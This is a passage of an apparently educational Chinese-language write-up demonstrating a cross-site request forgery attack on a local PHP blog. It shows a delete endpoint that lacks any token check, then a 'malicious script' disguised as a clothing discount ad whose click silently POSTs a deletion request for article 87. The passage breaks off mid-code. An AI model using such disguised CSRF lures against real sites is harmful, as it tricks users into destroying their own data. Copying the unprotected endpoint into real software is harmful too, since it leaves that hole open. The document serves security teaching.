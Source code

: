 ``` php
          alert("有錯誤產生，請查看console log");
          console.log(jqXHR.responseText);
        });
      }
    });

    // 因為 javascript.void(0) 就會擋掉，所以不用再寫 return false;
  });
```

> 可以知道這個網頁**利用POST傳送刪除請求**，並憑藉 **'i'** 來決定要刪除哪篇文章。

#### php/delete_article.php
``` php
<?php
  require_once 'connectDB.php';
  require_once 'functions.php';
  $check = delete_article($_POST['i']);
  if($check)
  {
    // 帳號存在
    echo "yes";
  }else
  {
    // 帳號不存在
    echo "no";
  }
?>
```

> 接受到刪除的請求後，根據 **'i'** 來刪除目標文章，執行functions.php的delete_article後並echo是否刪除成功。


## 2. 撰寫惡意腳本
撰寫一個駭客攻擊所採用的惡意腳本，佯裝成一個優惠廣告，欺騙用戶點擊。

![惡意圖片](https://i.imgur.com/3VLbEkS.png =80%x)
> 點擊圖片後會連到[某知名成衣品牌的官網](https://www.uniqlo.com/tw/?gclid=CjwKCAjw5cL2BRASEiwAENqAPvFIzONBhsBFg6kj6Jw2AoHeBtrtz--b9mX5twrfUrhRuVl3NLExnBoCbE4QAvD_BwE&gclsrc=aw.ds)

### 攻擊流程
![攻擊流程](https://i.imgur.com/x7lvyPT.png)

### [原始]網頁程式碼
#### testDelete/index.php
* 將目標文章id崁入POST的請求中
``` php
<!-- 惡意圖片 -->
<a href="javascript:void(0);" 
data-id="87" class="del_article">
<img src="https://i.imgur.com/fvJ5tsY.png"/></a>
```
* POST時執行目標主機中的刪除指令
``` php
  <!-- 當文件準備好，要做的事情是 -->
    $(document).ready(function()
    {
      $("a.del_article").click(function(){
          $.ajax({// 要傳送的包裹
            type : "post",// 在後端用表單送出去
            url : "http://localhost/13/php/delete_article.php",// 要送給誰處理
            data :
            {
```
